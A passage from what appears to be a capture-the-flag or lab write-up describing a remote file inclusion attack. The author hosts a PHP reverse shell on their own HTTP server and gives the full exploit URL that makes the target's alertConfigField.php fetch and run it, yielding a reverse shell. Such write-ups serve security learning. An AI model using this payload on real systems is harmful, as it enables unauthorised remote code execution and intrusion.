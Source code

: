 Apparently we can create a http server in our machine, hosting a php reverse shell that will be executed by the target... Let’s try:

After the http server is set up, he have to navigate to:

[`http://10.10.25.208/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.10.10:8000/php-reverse-shell.php`](http://10.10.25.208/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.10.10:8000/php-reverse-shell.php)

![Untitled](images/Untitled%2037.png)

And we get a reverse shell, awesome!

![Untitled](images/Untitled%2038.png)
